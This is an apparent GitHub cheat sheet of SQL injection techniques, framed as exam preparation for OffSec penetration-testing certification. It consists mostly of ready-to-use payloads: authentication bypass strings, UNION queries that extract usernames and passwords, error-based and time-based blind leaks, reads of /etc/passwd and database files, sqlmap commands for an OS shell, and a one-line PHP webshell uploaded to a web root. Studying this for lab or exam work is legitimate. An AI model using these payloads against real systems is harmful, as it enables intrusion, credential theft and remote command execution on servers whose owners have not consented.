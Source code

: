 
# 🛡️ SQL Injection Master Reference — Structured for OffSec Exam Use

This guide consolidates SQL injection techniques by category, aligned with specific databases (MySQL, MSSQL, PostgreSQL, Oracle), and includes syntax examples, explanations, and tips for enumeration, exploitation, and data exfiltration.

---

## 🔍 1. Reconnaissance Queries (All DBMS)

### MySQL
```sql
SELECT VERSION(); -- Get MySQL version
SELECT CURRENT_USER(); -- Current DB user
SELECT DATABASE(); -- Current database
```

### SQL Server
```sql
SELECT @@VERSION; -- SQL Server version
SELECT SYSTEM_USER; -- Current DB user
SELECT name FROM sys.databases; -- List databases
```

### PostgreSQL
```sql
SELECT version(); -- PostgreSQL version
SELECT current_user; -- Current user
SELECT datname FROM pg_database; -- List databases
```

### Oracle
```sql
SELECT * FROM v$version; -- Oracle version
SELECT user FROM dual; -- Current user
```

---

## 📂 2. Enumerate Schemas, Tables, Columns

### Schema Enumeration
```sql
-- MySQL
SELECT table_schema FROM information_schema.tables GROUP BY table_schema;

-- Oracle
SELECT owner FROM all_tables GROUP BY owner;
```

### Table Enumeration
```sql
-- MySQL
SELECT table_name FROM information_schema.tables WHERE table_schema='app';

-- PostgreSQL
SELECT table_name FROM information_schema.tables WHERE table_schema='public';

-- SQL Server
SELECT * FROM app.information_schema.tables;

-- Oracle
SELECT table_name FROM all_tables WHERE owner = 'SYS' ORDER BY table_name;
```

### Column Enumeration
```sql
-- MySQL
SELECT column_name, data_type FROM information_schema.columns 
WHERE table_schema='app' AND table_name='menu';

-- SQL Server
SELECT column_name, data_type FROM app.information_schema.columns 
WHERE table_name='menu';

-- PostgreSQL
SELECT column_name, data_type FROM information_schema.columns 
WHERE table_name='menu';

-- Oracle
SELECT column_name, data_type FROM all_tab_columns WHERE table_name='MENU';
```

---

## 💣 3. Exploitation Techniques

### Basic SQL Injection
```sql
' OR 1=1 --  -- Authentication bypass or general condition bypass
```

### UNION-Based Injection
```sql
' UNION SELECT null, username, password FROM users --  -- Extract credentials

' UNION SELECT NULL, table_name, NULL FROM information_schema.tables --  -- List tables
' UNION SELECT 1, column_name, '', 1 FROM information_schema.columns WHERE table_name='target_table' --  -- List columns
```

### Error-Based Injection

#### MySQL
```sql
extractvalue('', CONCAT('>', (SELECT version())));
extractvalue('', CONCAT('>', (SELECT group_concat(table_schema) FROM information_schema.tables GROUP BY table_schema)));
```

#### SQL Server
```sql
CAST(@@VERSION AS INT);  -- Force type error to leak data
CAST((SELECT TOP 1 flag FROM app.dbo.flags) AS INT);
```

#### PostgreSQL
```sql
CAST(version() AS INTEGER);  -- Error-based leak
```

#### Oracle
```sql
TO_CHAR(DBMS_XMLGEN.GETXML('SELECT banner FROM v$version WHERE ROWNUM=1'))  -- XML error-based leak
```

### Time-Based Blind Injection

#### MySQL
```sql
' AND SLEEP(5) --  -- Delayed response = True condition
```

#### SQL Server
```sql
WAITFOR DELAY '00:00:05' --  -- Delay for Boolean inference
```

---

## 🔄 4. Stacked Queries (If Supported)
```sql
'; SELECT user(); --  -- Multiple statements if supported
```

---

## 🧾 5. Data Exfiltration by Pagination
```sql
-- MySQL: Paginated table names
extractvalue('', CONCAT('>', (
  SELECT group_concat(table_name) 
  FROM (
    SELECT table_name 
    FROM information_schema.tables 
    WHERE table_schema='piwigo' 
    LIMIT 2 OFFSET 32
  ) AS foo
)));
```

---

## 🪪 6. File Read & Write

### MySQL
```sql
SELECT @@GLOBAL.secure_file_priv;
SELECT LOAD_FILE('/etc/passwd');
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/dump.txt';
```

### PostgreSQL
```sql
SELECT pg_read_file('postgresql.conf', 0, 1000);  -- Requires superuser
```

---

## 🛠 7. Tools: SQLMap Usage

```bash
sqlmap -u "http://target/page.php?id=1" --dbs --batch --risk=3 --level=5
sqlmap -u "http://target/page.php?id=1" --os-shell  # For RCE
sqlmap -u "http://target/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php" --batch
```

**Upload a Webshell:**
```bash
echo "<?php system($_GET['cmd']); ?>" > shell.php
sqlmap -u "http://target.com" --file-write=shell.php --file-dest="/var/www/html/shell.php"
```

---

## 🧠 Tips for OffSec Exam

- Automate repetitive enum (table/column/row dump)
- Use SQLMap only if allowed in exam guidelines
- Keep a cheat sheet with UNION lengths, offsets, and known error messages
- Track discovered DB objects and values in a separate scratchpad

---

🏁 **Crack the box. Exfiltrate the flag. Own the exam.**
